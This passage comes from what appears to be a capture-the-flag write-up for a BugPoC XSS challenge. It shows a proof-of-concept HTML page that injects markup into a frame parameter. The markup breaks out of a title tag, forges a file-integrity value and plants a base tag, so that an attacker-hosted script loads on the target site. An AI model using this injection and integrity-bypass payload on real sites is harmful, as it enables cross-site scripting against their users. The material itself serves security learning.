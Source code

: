 ![Flexible Redirector](../assets/BugPoC/flexible-redirector-2020-11-0.png)

```javascript
var baseBypass = "<base href='https://luvedyp86epw.redir.bugpoc.ninja'>"
```

We'll have to calculate and replace the hash again as we've changed our script. Also, we'll have to actually create the `files/analytics/js/frame-analytics.js` on our domain so that it loads with our custom payload.

Which brings our current payload to this:

**poc.html**

```html
<input type="button" value="Click me" onclick="openPage();"></input>
<script>
function openPage() {
const windowName = "iframe";
let hash = "sot4TsoYPMqH9HF0f7P0xsez7m6YnNiGcQWr7OJ6FBc="
var integrityBypass = "<input id='fileIntegrity' value="+encodeURIComponent(hash)+">"
var baseBypass = "<base href='isopach.dev'>"
var payload = "Test</title>"+integrityBypass+baseBypass
const otherTab = window.open("https://wacky.buggywebsite.com/frame.html?param="+payload, windowName);}
</script>
```
